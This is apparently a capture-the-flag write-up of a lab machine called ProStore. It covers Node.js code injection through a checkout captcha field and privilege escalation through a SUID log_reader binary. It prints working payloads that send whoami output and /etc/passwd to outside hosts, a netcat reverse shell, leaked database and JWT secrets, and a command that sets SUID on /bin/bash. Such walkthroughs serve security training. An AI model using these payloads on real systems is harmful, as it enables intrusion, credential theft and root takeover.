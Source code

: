 # ProStore

We start off by scanning network:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On port 500 we find this website:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try to log in as admin with admin:admin

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting error message maybe we can enumerate usernames by bruteforcing

But first i register and login with admin:admin and i add an item to my cart and go to checkout:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is a pretty obvious foothold direction so i enter everything and capture the request with burp:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The only error i manage to pop is when i input a string in the captcha:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So while looking up at the error:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it treats our input as code and does not find the variable so i need a way to call a function that is defined:

{% embed url="https://www.nodejs-security.com/blog/secure-javascript-coding-practices-against-command-injection-vulnerabilities" %}

so `child_process.exec` seems very unsecure since it does not avoid shell interpretation of arguments. Maybe we can exploit that by calling exec. Since this box is out of scope for OSCP i ask GPT, my bad skill issue

```
require('child_process').exec("whoami | curl -X POST -d @- http://ton-webhook.com");
```

Ok so i got stuck here for a bit, the webserver only allows requests on port 80:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('nc+192.168.49.59+80')</p></figcaption></figure>

The requests work on port 80 and 443 but is blocked anywhere else, after looking it up the target system or its network might have outbound filtering that **only allows traffic on ports 80 and 443**.

So now i am able to pipe the command injection to have some interesting output on my listener:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('cat+/etc/passwd|nc+192.168.49.59+443')</p></figcaption></figure>

Then i tried a basic reverse shell but got no response so obvious reason is that -e is blocked so i tried finding a `nc -e` bypass:

{% embed url="https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/" %}

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

and the redirect busted my command so the final payload i injected was:

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('tail+-n+0+-f+/tmp/1+|+/bin/sh|+nc+-nv+192.168.49.59+443+1>+/tmp/1')</p></figcaption></figure>

Now i try and download linpeas

{% hint style="warning" %}
firewall blacklists connectiosn from ports ≠ 80 or 443 so i host my python server on port 80
{% endhint %}

So after running linpeas here is everything i found that seemed interesting for PE:

```sh
???????????? Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                              
/home/observer/.bash_history
/root/


-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)

-rwsr-xr-x 1 root root 20K Feb 13  2023 /usr/local/bin/log_reader (Unknown SUID binary!)

??? Possible private SSH keys were found!
/home/observer/app/backend/node_modules/dotenv/README.md


???????????? Analyzing Env Files (limit 70)
-rw-r--r-- 1 observer observer 247 Dec 23  2022 /home/observer/app/backend/.env                                                                                                     
APP_PORT=5000
DB_HOSTNAME="127.0.0.1"
DB_NAME="prostore_db"
DB_PASSWORD="d8491f5ddd9137cc3630a8a054b01cdf71110a62"
DB_PORT=5432
DB_USER="prostore"
JWT_SECRET="d148c461e7241a2c94727e17fa70b90f"
PASSWORD_HASH_SALT="a008e3dc8f8ec8a0a6e485b890d74d91"
```

I cleared most of the find except the write.ul and log reader:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and for the log reader:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i try to test what i can do with  this log reader:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

it does not seem to do anything :skull:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ok we're getting somewhere!!!

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So it only reads log file... How could i guess that...

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Ok we are starting to have interesting errors:

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

LETSGOOOOOOOOO

yeah so that was the easy way but it's interesting to try and get a shell since we can run command injections as root:

In this box i did something that i think i can abuse now:

{% content-ref url="../linux/rubydome.md" %}
[rubydome.md](../linux/rubydome.md)
{% endcontent-ref %}

```
/usr/local/bin/log_reader 'test.log|chmod +s /bin/bash'
```

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

My first beyond root

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
